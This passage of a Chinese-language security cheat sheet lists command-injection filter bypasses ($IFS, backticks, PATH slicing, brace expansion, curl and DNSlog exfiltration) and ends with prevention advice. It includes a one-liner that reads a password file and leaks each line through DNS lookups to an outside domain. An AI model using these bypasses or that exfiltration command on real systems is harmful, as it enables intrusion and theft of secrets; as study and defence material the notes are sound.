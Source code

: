 ##### 1.4.7内敛执行

```
cat$IFS$9`ls`  //反引号` `直接返回的就是该cmd的执行结果，但是不会屏幕上表现出来
cat$IFS$9$(ls)
```

内联，就是将``或$()内命令的输出作为输入执行;这两个符号会将内部内容作为系统命令执行

##### 1.4.8 异或和取反构造字符

通过$、+、-、^、~、|等符号，从未被过滤的字符中构造playload  
参考[一些不包含数字和字母的webshell ](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

##### 1.4.9 控制环境变量绕过  

先利用echo $PATH得到环境变量 => "/usr/local/….blablabla”
接着利用echo ${#PATH}得到长度
然后要哪个字符截取哪个字符就行
${PATH:0:1} => ‘/’
${PATH:1:1} => ‘u’
${PATH:0:4} => ‘/usr’

##### 1.4.10 花括号绕过  

在Linux bash中还可以使用`{OS_COMMAND,ARGUMENT}`来执行系统命令`{cat,flag}`

##### 1.4.11 curl绕过  

可以通过curl命令将命令的结果输出到访问的url中

##### 1.4.12 声明类型，绕过引号，然后利用**.**拼接命令  

eg：$a = (string)foo;在这种情况下，变量$a就是字符串“foo”

##### 1.4.13 DNSlog外带

利用域名解析请求

假设我们有个可控的二级域名，那么目标发出三级域名解析的时候，我们这边是能够拿到它的域名解析请求的，可以配合DNS请求进行命令执行的判断，这一般被称为dnslog  
要通过dns请求即可通过ping命令，也能通过curl命令，只要对域名进行访问，让域名服务器进行域名解析就可实现  
例：可以去ceye.io注册个账号，注册完后会给一个域名，如果有域名解析请求会有记录；如得到的域名是test.ceye.io，当有主机访问1111.test.ceye.io时，就会记录下来这个域名解析请求；其中1111可以替换成我们需要获取的信息；如：cat /data/secret/password.txt | while read exfil; do host $exfil.contextis.com 192.168.107.135; done

##### ......（慢慢补充）

### 二. 命令执行漏洞的预防

* 不执行外部的应用程序或命令  

  尽量使用自定义函数或函数库实现外部应用程序或命令的功能。在执行system、eval等命令执行功能的函数前，要确认参数内容。

* 参数的值尽量使用引号包括，并在拼接前调用addslashes进行转义

* 使用escapeshellarg函数处理相关参数  

  escapeshellarg函数会将用户引起参数或命令结束的字符进行转义，如单引号“’”会被转义为“’”，双引号“"”会被转义为“"”，分号“;”会被转义为“;”，这样escapeshellarg会将参数内容限制在一对单引号或双引号里面，转义参数中包括的单引号或双引号，使其无法对当前执行进行截断，实现防范命令注入攻击的目的。
